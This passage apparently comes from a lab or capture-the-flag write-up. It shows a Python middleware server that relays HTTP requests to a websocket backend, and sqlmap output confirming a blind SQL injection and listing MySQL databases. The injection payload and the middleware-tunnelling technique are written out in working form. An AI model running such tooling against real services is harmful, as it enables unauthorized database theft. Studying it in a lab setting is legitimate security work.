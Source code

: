 ```py

            # If debug flag is set, print out the submitted payload to the console
            if self.server.debug:
                print("< "+mw_data)  # Print data recieved on the middleware server
                print(ws_resp)  # Print response recieved from websocket server

            # Add logic based on the ws server to send a response back to the client

            if ws_resp:
                self.send_response(200)
                self.send_header('Content-type', 'text/html')
                self.end_headers()
                self.wfile.write(ws_resp.encode())
            else:
                self.send_response(500)
                self.send_header('Content-type', 'text/html')
                self.end_headers()
            return

if __name__ == '__main__':
    httpd = HTTPServer(('127.0.0.1', 8080), SimpleHTTPRequestHandler)
    print("[+] Server started on 127.0.0.1:8080")
    httpd.debug = True
    httpd.serve_forever()
```

And running sqlmap on with the known information to automate database dump.

```bash
❯ sqlmap -u "http://127.0.0.1:8080/forward" -H "Content-Type: application/json" --data '{"payload": "*"}' --batch  --flush-session --dbs --dbms=mysql --technique=B --level=5 --risk=3

... [snip] ...

[14:13:28] [INFO] (custom) POST parameter 'JSON #1*' appears to be 'OR boolean-based blind - WHERE or HAVING clause' injectable 
[14:13:28] [WARNING] in OR boolean-based injection cases, please consider usage of switch '--drop-set-cookie' if you experience any problems during data retrieval
[14:13:28] [INFO] checking if the injection point on (custom) POST parameter 'JSON #1*' is a false positive
(custom) POST parameter 'JSON #1*' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 99 HTTP(s) requests:
---
Parameter: JSON #1* ((custom) POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause
    Payload: {"payload": "-4832 OR 5438=5438"}
---

... [snip] ...

[14:14:14] [INFO] testing MySQL
[14:14:16] [INFO] confirming MySQL
[14:14:19] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 8.0.0
[14:14:28] [INFO] fetching database names
[14:14:28] [INFO] fetching number of databases
[14:14:28] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[14:14:28] [INFO] retrieved: 5
[14:14:39] [INFO] retrieved: mysql
[14:15:37] [INFO] retrieved: information_schema
[14:19:28] [INFO] retrieved: performance_schema
```